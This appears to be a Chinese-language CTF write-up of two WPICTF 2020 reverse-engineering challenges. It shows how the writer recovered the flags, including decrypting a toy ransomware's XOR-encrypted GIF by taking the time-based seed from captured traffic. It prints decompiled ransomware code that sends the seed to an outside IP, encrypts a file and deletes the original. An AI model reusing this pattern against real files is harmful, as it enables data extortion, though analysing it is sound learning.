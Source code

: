这次的比赛只有两道re，全都是malware，不难，也还挺有意思

#### danger-Live-and-Malicious-Code

病毒的代码里面混进了flag，js的语法也不是特别懂，发现了很多处理字符串的函数，所以干脆`console.log`都输出了出来，发现输出的`url`中间夹了flag

```
WPI{Oh_nose_procoding_detected}
```



#### NotWannasigh

首先看下`ransom note`

```
Haha! Your precious file flag.gif has been encrypted by my new and improved ransomware NotWannasigh! You must send bitcoin to "bitpay.com/83768" to get the decryption key. You should act fast because in 48 hours I will delete the key. Muahahahaha!
 - def-not-h4ckah

(Hi, CTF challenge creator here. You should _NEVER_ pay the ransom. If you send bitcoin to that BTC wallet then you will ONLY be donating to charity (and hey, that's really nice of you, Mental Health Hackers is a great organization). I will NOT send you the decryption key)
```

题目中所给的`flag-gif.EnCiPhErEd`应该就是加密过的文件，解密就可以得到flag，给的流量包暂时不知道作用是什么，干脆先看看程序的实现

```cpp
*(_QWORD *)seed = time(0LL);
  srand(seed[0]);
  fd = socket(2, 1, 0);
  if ( fd == -1 )
  {
    puts("could not create socket");
  }
  else
  {
    puts("created socket");
    *(_DWORD *)&addr.sa_data[2] = inet_addr("108.61.127.136");
    addr.sa_family = 2;
    *(_WORD *)addr.sa_data = htons(0x50u);
    if ( connect(fd, &addr, 0x10u) >= 0 )
    {
      puts("connected");
      sprintf(&s, "%d", *(_QWORD *)seed);
      if ( send(fd, &s, 0xAuLL, 0) >= 0 )
        puts("sent");
      else
        puts("send failed");
    }
    else
    {
      puts("connect error");
    }
  }
```

先根据当前时间生成了一个随机数种子，然后进行通信，把这个种子发给了一个ip，这个种子肯定是后面生成随机数用的，所以肯定是有用的，这也就是流量包的作用，根据流量信息可以获得这个随机数种子的值`1585599106`

下面生成了一个随机数序列

```cpp
  puts("targetting flag.gif");
  stream = fopen("flag.gif", "r+");
  fseek(stream, 0LL, 2);
  v19 = ftell(stream);
  fseek(stream, 0LL, 0);
  printf("fileSize = %d\n", (unsigned int)v19);
  v18 = v19 - 1LL;
  v8 = v19;
  v9 = 0LL;
  v3 = alloca(16 * ((v19 + 15LL) / 0x10uLL));
  v17 = &v6;
  for ( i = 0; i < v19; ++i )
    *((_BYTE *)v17 + i) = rand();
  puts("key generated by 256");
```

生成了key，下面是加密过程

```cpp
for ( j = 0; ; ++j )
  {
    v14 = fgetc(stream);
    if ( j >= v19 )
      break;
    *((_BYTE *)v15 + j) = v14 ^ *((_BYTE *)v17 + j);
  }
  fclose(stream);
  remove("flag.gif");
  v13 = fopen("flag-gif.EnCiPhErEd", "w+");
  for ( k = 0; k < v19; ++k )
    fputc(*((unsigned __int8 *)v15 + k), v13);
  fclose(v13);
```

简单异或之后写入文件，所以生成随机数序列之后再异或回来就好了

```cpp
#include <iostream>
#include <cstdio>
using namespace std;
int main()
{
    srand(1585599106);
    FILE *s = fopen("../flag-gif.EnCiPhErEd", "r");
    int index = 0;
    FILE *f = fopen("../flag.gif", "w+");
    while (!feof(s))
    {
        int uVar1 = rand()&0xff;
        int8_t tmp2=fgetc(s);
        int8_t tmp = uVar1 ^ tmp2;
        fputc(tmp, f);
        index = (int32_t)index + 1;
    }

    fclose(s);
    fclose(f);
    return 0;
}
```

这个脚本要在linux下跑，因为win的随机数生成的不一样

得到了含有flag的gif

![flag](_images/2020-WPICTF/flag.gif)

flag有点难读，第一遍还读错了一位

```
WPI{It_always_feels_a_little_weird_writing_malware}
```

